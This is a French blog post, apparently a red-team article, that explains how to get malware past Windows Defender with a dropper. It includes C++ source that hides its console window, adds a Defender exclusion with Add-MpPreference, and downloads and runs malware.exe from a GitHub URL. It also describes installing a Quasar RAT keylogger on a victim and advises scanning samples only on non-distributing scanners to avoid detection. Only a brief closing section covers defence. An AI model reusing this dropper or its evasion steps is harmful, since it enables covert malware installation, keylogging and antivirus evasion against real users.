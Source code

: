 ```yaml
---
published: true
layout: post
title: "Evasion de Windows Defender grâce à un injecteur (dropper)"
description: "Cet article décrit comment rendre indétectable n'importe quel malware auprès de Windows Defender."
lang: fr_FR
category: redteam,malware,raccourci,dropper,injecteur,evasion
---
```

![Evasion de Windows Defender grâce à un injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/illustration.PNG)

Un injecteur (ou *dropper*, en anglais), est un programme créé pour installer un logiciel malveillant sur un système cible.
Il s'agit d'une forme minimaliste de cheval de Troie. Le code du logiciel malveillant est soit inclus à même l'injecteur, soit téléchargé sur la machine à partir d'Internet une fois activé.

## Principe d'exploitation
PowerShell dispose d'une méthode [Add-MpPreference](https://docs.microsoft.com/en-us/powershell/module/defender/add-mppreference?view=win10-ps) qui permet d'intéragir directement avec Windows Defender.
Cette commande permet d'ajouter des exclusions sur les dossiers, fichiers, extensions.
C'est utile pour administrer un poste client par exemple mais peut être détournée de son utilité native.
L'idée est donc tout simplement d'ajouter une exception sur le malware. Le prérequis est d'avoir les droits d'exécuter un programme en tant qu'administrateur de la part de la victime.
Il sera alors possible d'exécuter et d'évader n'importe quel type de malware, quelque soit sont taux de détection original.

Pour l'exemple, j'utiliserai l'outil d'administration à distance (*Remote Administration Tool* ou *RAT*) [Quasar](https://github.com/quasar/Quasar) qui est libre et open source.

Le taux de détection original est le suivant :

[![Taux de détection du malware Quasar](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_malware.PNG)

Attention, lors de la création d'un malware ou injecteur (*dropper*), il **ne doit jamais** être scanné sur les plateformes telles que [VirusTotal](https://www.virustotal.com/gui/) car les échantillons sont distribués aux **éditeurs antivirus**.
Les plateformes dites sans distribution (*no distribute*) telles que [AntiScanMe](https://antiscan.me/) sont à privilégier. Il serait bête de griller votre cartouche avant même de commencer votre audit Red Team :)

## Création du dropper en C++
L'étape suivante est la création de l'injecteur. J'ai choisi le language C++ mais il peut être fait au format .bat, .ps1 ou tout autre langage tant que PowerShell est exécuté.
Le code ne tient qu'en quatre étapes :
1. Masquer la fenêtre
2. Ajouter l'exclusion via PowerShell avec la commande `Add-MpPreference` et le paramètre `-ExclusionPath`
3. Télécharger le malware à l'endroit où a été ajoutée l'exclusion
4. Exécuter le malware téléchargé

Voici le code source de l'application :
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
    ::ShowWindow(::GetConsoleWindow(), SW_HIDE);
    system("powershell.exe -Command Add-MpPreference -ExclusionPath %appdata%\\malware.exe -Force");
    system("powershell.exe -Command Invoke-WebRequest -Uri https://github.com/CLeBeRFR/a/raw/main/malware.exe -OutFile %appdata%\\malware.exe");
    system("powershell.exe -Command Invoke-Item %appdata%\\malware.exe");
}
```
Le fichier manifest doit aussi être modifié via les paramètres du projet afin demander l'exécution de l'application en tant qu'administrateur.

Le taux de détection de l'injecteur est le suivant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_dropper.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/scan_dropper.PNG)

La non détection de l'injecteur par Windows Defender est le seul élément qui est vraiment intéressant car l'injecteur sert uniquement à évader ce dernier.

Une fois l'injecteur envoyé à la victime, l'exclusion est correctement ajoutée et le malware pourtant initialement détecté par Windows Defender est exécuté. La victime apparaît alors du côté de l'attaquant :

[![Taux de détection de l'injecteur (dropper)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/Quasar.PNG)

L'attaquant dispose alors de toutes les fonctionnalités du malware installé. Dans le cas présent, il est possible d'avoir un enregistreur de frappes (*keylogger*) :

[![Enregistreur de frappes (keylogger)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/keylogger.PNG)

Il est également possible d'envoyer des messages à la victime :

[![Message box Quasar](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/message_box.PNG)

D'autres fonctionnalités sont disponibles et dépendent du logiciel malveillant installé, un ransomware aurait également pu être installé...

Si la vicitme se rend dans les paramètres, elle pourra voir l'exclusion ajoutée par l'injecteur :

[![Exclusion Windows Defender ajoutée par l'injecteur](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)](/assets/images/2021-03-18-Evasion-Windows-Defender-injecteur-dropper/exclusion.PNG)

## Comment s'en protéger
Etant donné que cette technique nécessite les droits d'administration de la part de la victime, il convient de limiter au maximum la liste des comptes ayant le droit d'exécuter des programmes en tant qu'administrateur.
Fort heureusement, les postes clients des collaborateurs de grandes entreprises n'ont généralement pas une telle permission.

Par ailleurs, je pense que cette méthode est transposable aux différents anti virus en éditant les valeurs du registre ou la configuration des fichiers contenants les exclusions. La non utilisation de Windows Defender n'est donc pas un moyen de rémédiation.